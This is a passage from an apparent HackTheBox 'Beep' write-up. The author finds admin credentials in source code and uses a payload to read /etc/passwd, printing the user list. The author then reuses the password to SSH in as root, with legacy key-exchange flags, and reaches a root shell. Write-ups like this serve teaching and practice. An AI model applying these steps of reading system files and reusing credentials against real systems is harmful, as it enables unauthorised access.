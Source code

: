 ![bp-6](https://user-images.githubusercontent.com/87711310/211778602-d7efa8e0-df30-478b-a32a-2e4578d090b7.png)

After going through the source-code, I found the credentials for the `admin` user.

![bp-7](https://user-images.githubusercontent.com/87711310/211778608-07cbfbb1-be1e-4d74-875b-2df7e281d389.png)

And i'm in `index.php` or `admin's dashboard`

![bp-8](https://user-images.githubusercontent.com/87711310/211779417-1020d1e7-c849-4cbb-ba83-10eadf041502.png)

So now I tried to ssh into system using `admin's credentials` but I couldn't

So using the same payload, I tried to look at the contents of `/etc/passwd` to get the list of the users on the machine

![bp-9](https://user-images.githubusercontent.com/87711310/211780984-27efca25-c799-44f0-a7b5-a900905df446.png)

And after filtering through the results, these are the ones I could use.

```
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

And since `admin` is similar to `root`, I tried ssh-ing to the `root` user with the admin's credentials we retrieve.

So whule logging in as root through `ssh` i encountered an unusual error.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/beep]
└─$ ssh root@10.10.10.7      
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1 
```

After restarting the box, connecting to the VPN again after disconnecting it, I googled the issue and found a quick fix

```
sh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa root@10.10.10.7 
```

You just had to exchange the diffie-hellman and rsa keys with the IP.
After doing this and entering the password, I was in!!!

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/beep]
└─$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa root@10.10.10.7 
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
```